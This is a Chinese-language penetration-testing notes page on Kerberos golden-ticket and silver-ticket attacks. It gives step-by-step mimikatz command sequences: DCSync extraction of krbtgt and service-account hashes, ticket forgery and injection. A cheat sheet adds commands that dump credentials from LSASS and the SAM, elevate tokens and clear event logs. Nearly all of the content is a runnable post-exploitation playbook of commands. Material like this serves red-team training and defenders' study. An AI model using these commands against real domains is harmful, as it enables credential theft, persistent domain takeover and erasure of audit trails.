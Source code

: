 ```yaml
---
description: 适用于在获取目标域内最高权限后的权限维持 / 后渗透密码收集 / 基于Kerberos认证
---
```


# ✔️ 票据传递攻击 - Pass The Ticket

## 黄金票据传递攻击

### 先决条件

* 已获得了目标域内**krbtgt用户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 要伪造的域用户（高权限账户：域管理员）

### 工具

#### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/1 (11).png" alt=""><figcaption></figcaption></figure>

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取krbtgt账户的NTLM哈希值 (DCSync攻击常用)
lsadump::dcsync /domain:target.com /user:krbtgt
# 生成黄金票据
kerberos::golden /user:administrator /domain:target.com /sid:域SID /krbtgt:312343xxxxxxxxxxx345435565789 /id:500 /target:target.com /renewal:票据的有效时间 /ticket:golden_ticket.kirbi
# 导入
kerberos::ptt golden_ticket.kirbi
# 验证
kerberos::list
# 持久化：可将生成的票据保存下来，后续继续使用
```

{% hint style="info" %}
* 提取NTLM哈希——生成黄金票据——导入伪造的黄金票据——验证票据——持久化
* 黄金票据可访问全域资源
{% endhint %}

## 白银票据传递攻击

### 先决条件

* 已获得了目标域内**服务账户**的哈希值
* 已获得了目标域的SID值
* 目标域名
* 需要知道SPN
* 要伪造的某个特定的服务账户

### 工具

#### mimikatz.exe

```powershell
mimikatz.exe
# 提取服务账户的NTLM哈希
lsadump::dcsync /domain:target.com /user:服务账户名
# 生成白银票据
kerberos::golden /domain:target.com /sid:域SID /target:server.target.com /service:http /rc4:服务账户哈希 /user:administrator /id:用户RID /ptt
# 验证
kerberos::list
# 使用白银票据，例如访问共享目录
\\server.target.com\sharedfolder
# 有条件的持久化：只要服务账户的哈希没改就可以
```

{% hint style="info" %}
* 提取NTLM哈希——生成白银票据——验证票据——有条件的持久化
* 白银票据在本地使用，不与DC交互，因此比黄金票据攻击要隐蔽
* 是针对特定服务的TGS的攻击
{% endhint %}

## 常用命令

### mimikatz.exe

```powershell
# 提升权限
privilege::debug
# 列出系统上的所有票据并提取
sekurlsa::tickets /export
# 列出当前用户的 Kerberos 票据（TGT 和 TGS）
sekurlsa::tickets
# 提取当前用户凭证
sekurlsa::logonpasswords
# 提取当前系统中的明文密码
sekurlsa::wdigest
# 提取本地SAM数据库中的NTLM哈希
lsadump::sam
# 提取当前登录的域用户和本地用户的凭证
lsadump::lsa /patch
lsadump::lsa /inject
# 列出当前用户的所有令牌
token::list
# 在令牌里发现有高权限的账户后，提升权限
token::elevate
# 清除日志
event::clear
# 清除内存中的票据
kerberos::purge
# 
```

### 其他

```bash
# 查域SID
whoami /user
whoami /groups
# 
```

{% hint style="info" %}
Kerberos协议是在位于**不受信任的网络中**的**受信任主机上**的**身份验证**协议，在域渗透的过程中主要是利用Kerberos票据来进行攻击，涉及黄金票据和白银票据传递，票据传递攻击本质上是冒充其他高权限用户。
{% endhint %}
